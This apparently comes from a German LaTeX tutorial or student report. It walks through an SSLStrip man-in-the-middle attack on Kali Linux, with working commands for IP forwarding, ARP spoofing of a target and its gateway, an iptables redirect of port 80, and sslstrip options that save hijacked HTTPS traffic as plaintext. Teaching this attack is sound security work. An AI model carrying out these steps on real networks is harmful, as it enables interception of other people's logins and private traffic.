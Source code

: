 \subsection*{Tools}
Um SSLStrip einsetzen zu können sind mehrere Schritte notwendig. Auf Kali Linux 2.0 sind alle benötigten Tools bereits vorinstalliert. \\

IP-Forwarding, also das Weiterleiten von IP-Paketen, kann durch folgende Befehle aktiviert werden:\\

\begin{lstlisting}[caption=Aktivieren von IP-Forwarding]{Name}
	sysctl -w net.ipv4.ip_forward=1
	alternativ: echo 1 > /proc/sys/net/ipv4/ip_forward
\end{lstlisting}
	

Anschließend wird ARP-Spoofing gestartet. Dies geschieht mit folgenden Befehlen:
\begin{lstlisting}[caption=Parameter für ARP-Spoofing]
arpspoof -i <interface> -t <targetIP> <gatewayIP>
Parameter:
	-i  <interface>		Angabe des Interfaces, in dem sich Angreifer und Client befinden.
	-t <targetIP>   	IP-Adresse des anzugreifenden Clients
	<gatewayIP>   		IP-Adresse des Gateways im LAN
\end{lstlisting}

Nachdem nun mittels ARP-Spoofing alle IP-Pakete vom angegriffenen Client über den Angreifer gesendet werden, müssen die umgeleiteten HTTP-Pakete via IPtables an das Tool SSLStrip weitergereicht werden. Dies geschieht mittels folgendem Eintrag:\\

\begin{lstlisting}[caption=Eintrag in IP-Tables damit HTTP-Pakete an sslstrip weitergereicht werden]
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <listenPort>
Parameter:
	-t nat                 	: Firewall-Gruppe
	-A PREROUTING          	: Regel wird angewandt, BEVOR Paket geroutet wird
	-p tcp                 	: Nur TCP-Pakete
	--destination-port 80  	: Nur Pakete auf Port 80 (http)
	-j REDIRECT            	: Legt Aktion fest, also Weiterleitung
	--to-port <listenPort> 	: Port auf dem SSLStrip lauscht.
\end{lstlisting}


Nun muss noch SSLStrip selbst gestartet werden. Dies geschieht mittels folgender Eingabe:
\begin{lstlisting}[caption=Erforderliche Parameter für SSLStrip]
sslstrip -a -k -l <listenPort> -w <logpath>
Parameter:
	-s : Gesamter SSL Traffic wird gelogged
	-p : Nur SSL POST Traffic wird protokolliert
	-a : SSL- und HTTP-Traffic wird aufgezeichnet
	-k : Bestehende SSL-Verbindungen terminieren, damit diese neu aufgebaut werden
	-l : Port auf dem SSLStrip lauscht. Muss identisch zu --to-port bei iptables-Eintrag sein
	-w : Pfad in dem gehijackter HTTPS-Traffic im Klartext abgespeichert wird
\end{lstlisting}
	

